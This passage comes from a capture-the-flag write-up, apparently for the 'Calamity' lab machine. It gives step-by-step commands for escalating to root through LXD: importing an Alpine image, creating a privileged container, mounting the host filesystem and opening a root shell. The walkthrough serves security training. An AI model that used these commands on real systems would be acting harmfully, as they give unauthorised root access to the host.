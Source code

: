 With SSH access, copying is as easy as running `scp alpine-v3.7-i686-20180121_1729.tar.gz xalvas@10.10.10.27:/dev/shm/.tmp/alpine.tar.gz` .

### Prepare container
Importing tar files as images is explained [here](https://stgraber.org/2016/03/30/lxd-2-0-image-management-512/). The steps are as follows:

```bash
xalvas@calamity:/dev/shm/.tmp$ lxc image import ./alpine.tar.gz --alias myimage
Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: facaf59235080f8c950f700f1c0a9e65a7487901dfc30d04bd78bba7444df4b0
xalvas@calamity:/dev/shm/.tmp$ lxc image list
+---------+--------------+--------+------------------------------+------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |         DESCRIPTION          | ARCH |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+------------------------------+------+--------+------------------------------+
| myimage | facaf5923508 | no     | alpine v3.7 (20180121_17:29) | i686 | 2.37MB | Jan 21, 2018 at 8:06pm (UTC) |
+---------+--------------+--------+------------------------------+------+--------+------------------------------+
```

The output above asks us to run lxd init but if we try, it tells us we should sudo, which we can’t do. Fortunately, it will work without, so it’s ok to ignore.

We proceed by creating the container. The important part about it is using the flag security.privileged=true, which causes the container to interact as root with the host filesystem. This means all we have to do it mount the whole filesystem into the container and we get access to everything.

```bash
xalvas@calamity:/dev/shm/.tmp$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
xalvas@calamity:/dev/shm/.tml$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
xalvas@calamity:/dev/shm/.tmp$ lxc list
+-------------+---------+------+------+------------+-----------+
|    NAME     |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+-------------+---------+------+------+------------+-----------+
| mycontainer | STOPPED |      |      | PERSISTENT | 0         |
+-------------+---------+------+------+------------+-----------+
```

### Run shell

The last part is starting the container and executing a shell inside. We can then change into the rooted host filesystem and cat out the flag.

```bash
xalvas@calamity:/dev/shm/.tmp$ lxc start mycontainer
xalvas@calamity:/dev/shm/.tmp$ lxc exec mycontainer /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # ls -la /mnt/root/
total 108
drwxr-xr-x   22 root     root          4096 Jun 29  2017 .
drwxr-xr-x    3 root     root          4096 Jan 23 20:20 ..
drwxr-xr-x    2 root     root          4096 Jun 28  2017 bin
drwxr-xr-x    3 root     root          4096 Jun 27  2017 boot
drwxr-xr-x   18 root     root          3880 Jan 21 22:26 dev
drwxr-xr-x   96 root     root          4096 Jun 28  2017 etc
[...]
```